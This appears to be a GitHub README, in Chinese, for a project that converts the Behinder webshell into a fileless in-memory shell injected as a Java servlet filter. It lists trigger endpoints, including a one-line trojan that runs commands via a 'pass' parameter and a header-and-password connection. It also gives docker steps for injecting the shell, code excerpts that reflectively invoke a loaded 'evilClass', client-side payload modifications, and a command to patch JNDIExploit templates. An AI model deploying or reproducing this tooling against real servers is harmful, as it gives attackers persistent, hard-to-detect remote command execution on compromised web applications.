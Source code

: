 # BehinderMemShell
研究將冰蠍修改為內存馬方式執行。

* Check MemShell
  * XXXXX?type=check
* 一句話木馬
  * XXXXX?type=basic&pass=[cmd]
* 冰蠍
  * 任意路徑
  * Header中加入 `X-Options-Ai: XXXXX`
  * 密碼 rebeyond

# Update
* 2022/06/11
  * 支援 SpringMemshell 的冰蠍功能

# Demo
* docker build -t memshell . --no-cache
* docker run -it memshell
* 訪問 http://172.17.0.2:8080/inject.jsp 觸發注入 MemShell
* 訪問 http://172.17.0.2:8080/inject.jsp?type=basic&pass=id 檢查是否執行網馬
* 用冰蠍連接 MemShell

# 解析

冰蠍的運作原理是將 Payload 中的 Class 透過 ClassLoader 的 defineClass 函式，將 Bytes 還原回 Class，Payload 的 Class 入口函式是 equals，內容如下：
```
public boolean equals(Object obj) {
	PageContext page = (PageContext)obj;
	this.Session = page.getSession();
	this.Response = page.getResponse();
	this.Request = page.getRequest();
	...
}
```

obj 進入 equals 後會被轉換為 PageContext，進而獲取 Request、Response 及 Session，doFilter 函式中可以獲取 Request、Response，Session 則可以透過 Request 獲得，修改後的 MemShell 程式如下：
```
public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
	...
	HashMap<Object, Object> pageContext = new HashMap<>();
	pageContext.put("request", servletRequest);
	pageContext.put("response", servletResponse);
	pageContext.put("session", ((HttpServletRequest)servletRequest).getSession());
	...
	Method targetMethod = evilClass.getDeclaredMethod("equals", new Class[] { HashMap.class });
	targetMethod.invoke(evilClass.newInstance(), new Object[] { pageContext });
	...
}
```

因冰蠍接收端生成 Payload 的 Class入口函示仍為 equals(Object obj)，而非我們修改過的 equals(HashMap obj)，所以會在 invoke 時產生錯誤，所以接收端也需要進行修改，冰蠍3.0後的版本在 net.rebeyond.behinder.payload.java 下的程式皆須修改，將 equals 函式修改如下：
```
public boolean equals(HashMap obj) {
	this.Session = (HttpSession)obj.get("session");
	this.Response = (ServletResponse)obj.get("response");
	this.Request = (ServletRequest)obj.get("request");
	...
}
```

# Some Notes
* 更新 jar 包中的 class
  * `jar -uvf JNDIExploit.jar com\feihong\ldap\template\DynamicFilterTemplate.class`

# Reference
* [JNDIExploit](https://github.com/Jeromeyoung/JNDIExploit-1)
* [冰蝎改造之适配基于tomcat Filter的无文件webshell](https://mp.weixin.qq.com/s/n1wrjep4FVtBkOxLouAYfQ)
* [利用shiro反序列化注入冰蝎内存马](https://xz.aliyun.com/t/10696)
* [告别脚本小子系列丨JAVA安全(4)——ClassLoader机制与冰蝎Webshell分析](https://www.freebuf.com/articles/network/323994.html)
